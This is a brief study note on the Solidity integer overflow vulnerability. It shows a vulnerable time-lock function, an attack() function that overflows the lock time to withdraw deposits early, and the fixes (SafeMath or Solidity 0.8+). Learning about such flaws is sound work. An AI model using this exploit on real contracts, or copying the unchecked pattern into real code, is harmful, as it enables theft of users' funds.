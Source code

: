#overflow #underflow

https://solidity-by-example.org/hacks/overflow/

Before solidity 0.8, there's no auto check under/overflow
```solidity
function increaseLockTime(uint256 _secondsToIncrease) public { 
	lockTime[msg.sender] += _secondsToIncrease; 
}
```

The attack can attack the function like this:
```solidity
function attack() public payable { 
	timeLock.deposit{value: msg.value}(); 
	/* 
	if t = current lock time then we need to find x such that 
	x + t = 2**256 = 0 
	so x = -t 2**256 = type(uint).max + 1 
	so x = type(uint).max + 1 - t 
	*/
	timeLock.increaseLockTime( 
		type(uint256).max + 1 - timeLock.lockTime(address(this)) 
	); 
	timeLock.withdraw(); 
}
```

Solution:
1. use `SafeMath`
2. use solidity version > 0.8.0